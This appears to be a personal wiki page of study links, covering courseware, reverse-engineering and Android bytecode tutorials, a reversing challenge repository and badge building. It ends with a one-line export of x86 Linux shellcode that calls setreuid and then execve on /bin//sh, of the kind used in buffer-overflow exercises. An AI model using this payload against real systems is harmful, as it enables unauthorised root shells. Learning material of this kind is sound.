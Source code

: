 ```yaml
---
layout: default
title: General Training 
---
```


## About this wiki

I needed a place to store various links and articles in a place that I could easily share
and update. As such this is the end result , hopefully each link will at some point be
accompanied by a blog post as well explaining in more detail what I thought or just
to give a solution to a RE puzzle.

## Running 

[Medals I Have acquired from various races](http://www.flickr.com/photos/29154557@N02/sets/72157635410311460/)

## General
* * * 

[Unv Of Japan](http://i-web.i.u-tokyo.ac.jp/edu/training/ss/lecture/new-documents/Lectures/)

[MIT Calculus Courseware](http://ocw.mit.edu/resources/res-18-006-calculus-revisited-fall-2010/index.htm)

## Reverse Engineering
* * * 

[Mac OS X Reverse Engineering , Beginner Tutorial](http://reverse.put.as/wp-content/uploads/2011/02/beginners-tut-II.txt)
[Hackfortress Reversing Challenges](https://github.com/peasleer/hackfortress)

## Android Reversing / Disassembly 
* * *

[Dalvik Bytecode](http://www.netmite.com/android/mydroid/dalvik/docs/dalvik-bytecode.html)

[Base 64 Encoder in C](http://base64.sourceforge.net/b64.c)

## Badge Building
* * *

[How to build a badge](/wiki/TheBuild.html)


## Shellcode to spawn a new shell

   export SHELLCODE=`echo -e "\x6a\x31\x58\x99\xcd\x80\x89\xc3\x89\xc1\x6a\x46\x58\xcd\x80\xb0\x0b\x52\x68\x6e\x2f\x73\x68\x68\x2f\x2f\x62\x69\x89\xe3\x89\xd1\xcd\x80"`
